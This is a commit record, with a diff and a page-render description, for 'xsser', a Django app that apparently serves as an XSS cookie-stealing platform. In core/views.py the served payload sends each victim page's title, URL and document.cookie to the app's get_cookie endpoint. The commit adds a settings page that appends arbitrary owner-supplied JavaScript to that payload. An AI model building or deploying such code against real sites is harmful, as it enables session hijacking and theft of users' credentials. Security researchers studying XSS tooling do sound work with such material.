
After one commit to virusdefender/xsser, a Django app: page /project/settings/1/ in a window 1280 px wide. The commit adds this page. Shown: the top 346 px of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
add custom js

```diff
--- a/core/models.py
+++ b/core/models.py
@@ -10,7 +10,6 @@ class Record(models.Model):
     ip = models.IPAddressField(blank=True)
     url = models.URLField(blank=True)
     title = models.CharField(max_length=50, blank=True)
-    keep_session = models.BooleanField(default=False)
 
     def __unicode__(self):
         return "%s %s" % (self.create_time, self.url)
@@ -21,7 +20,9 @@ class XssProject(models.Model):
     title = models.CharField(max_length=30)
     records = models.ManyToManyField(Record, blank=True, null=True)
     create_time = models.DateTimeField(auto_now_add=True)
-    #js_url = models.URLField()
+    keep_session = models.BooleanField(default=False)
+    custom_js = models.BooleanField(default=False)
+    custom_js_content = models.TextField(blank=True)
 
     def __unicode__(self):
         return "%s" % self.title
--- a/core/views.py
+++ b/core/views.py
@@ -65,8 +65,10 @@ def xss_js(request):
         raise Http404
     js = """
     var x=new Image();
-    x.src=''+'%s'+'?a=info&id='+%s+'&title='+document.title+'&url='+escape(document.URL)+'&cookie='+escape(document.cookie);
+    x.src=''+'%s'+'?id='+%s+'&title='+document.title+'&url='+escape(document.URL)+'&cookie='+escape(document.cookie);
     """ % (BASE_URL + "get_cookie/", p.id)
+    if p.custom_js:
+        js = js + p.custom_js_content
     return HttpResponse(js)
 
 
@@ -90,3 +92,32 @@ def delete_project(request):
             except XssProject.DoesNotExist:
                 raise Http404
     return HttpResponseForbidden("Invalid Token")
+
+
+@login_required(login_url="/login/")
+def project_settings(request, project_id):
+    if request.method == "GET":
+        try:
+            p = XssProject.objects.get(pk=int(project_id))
+        except XssProject.DoesNotExist:
+            raise Http404
+        return render(request, "core/project_settings.html", {"project": p})
+    else:
+        try:
+            p = XssProject.objects.get(pk=int(project_id))
+        except XssProject.DoesNotExist:
+            raise Http404
+        checkbox_list = request.POST.getlist("settings")
+        if "custom_js" in checkbox_list:
+            p.custom_js = True
+            p.custom_js_content = request.POST.get("custom_js_content")
+            print p.custom_js_content
+        else:
+            p.custom_js = False
+        if "keep_session" in checkbox_list:
+            p.keep_session = True
+        else:
+            p.keep_session = False
+
+        p.save()
+        return HttpResponseRedirect("/project/settings/%s/" % p.id)
--- a/templates/core/project_detail.html
+++ b/templates/core/project_detail.html
@@ -10,7 +10,9 @@
 
             <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                 <span class="glyphicon glyphicon-trash"></span>
-                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a></p>
+                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a>&nbsp;&nbsp;&nbsp;&nbsp;
+                <span class="glyphicon glyphicon-asterisk"></span><a href="/project/settings/{{ project.id }}">Settings</a>
+            </p>
             <hr/>
             <div class="instruction">
                 <p>How to use?</p>
@@ -27,7 +29,7 @@
                     {% else %}
                         {% for record in project.records.all reversed %}
                             <div class="record">
-                                <p>Record id:<span class="badge">{{ record.id }}</span></p>
+                                <p>Record id:<span class="badge">{{ forloop.counter }}</span></p>
 
                                 <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
                                 <p>Title:<code>{{ record.title }}</code></p>
--- /dev/null
+++ b/templates/core/project_settings.html
@@ -0,0 +1,28 @@
+{% extends "base.html" %}
+{% block title %}create project{% endblock %}
+
+{% block body %}
+{% include "_nav_bar.html" %}
+<div class="container">
+    <div class="project_settings">
+        <form action="/project/settings/{{ project.id }}/" method="post">
+            {% csrf_token %}
+            {% if project.keep_session %}
+                <p><input type="checkbox" checked="checked" value="keep_session" name="settings"> Keep session</p>
+            {% else %}
+                <p><input type="checkbox"  value="keep_session" name="settings"> Keep session</p>
+            {% endif %}
+            {% if project.custom_js %}
+                <p><input type="checkbox" checked="checked"  value="custom_js" name="settings"> Use custom js</p>
+            {% else %}
+                <p><input type="checkbox"  name="settings" value="custom_js"> Use custom js</p>
+            {% endif %}
+            <label>Custom js content</label>
+            <textarea class="form-control" rows="3" name="custom_js_content">{{ project.custom_js_content }}</textarea><br/>
+            <p>The custom js will be appended to the origin js, you can click<a href="/xss?id={{ project.id }}" target="_blank"> here </a>to preview.</a></p>
+            <p><button type="submit" class="btn btn-primary" onclick="this.form.submit()" >Submit</button></p>
+        </form>
+
+    </div>
+</div>
+{% endblock %}
--- a/xsser/urls.py
+++ b/xsser/urls.py
@@ -21,6 +21,7 @@ urlpatterns = patterns('',
     url(r'^xss/$', 'core.views.xss_js', name="xss_js"),
     url(r'^get_cookie/$', 'core.views.get_cookie', name="get_cookie"),
     url(r'^my_projects/$', 'core.views.my_projects', name="my_projects"),
+    url(r'^project/settings/(?P<project_id>\d+)/$', 'core.views.project_settings', name="project_settings"),
 
     url('^login/$', 'account.views.login', name="login"),
     url(r'^register/$', 'account.views.register', name="register"),
```
Also changed, not shown: templates/core/my_project.html (+6 -2 lines), db.db.
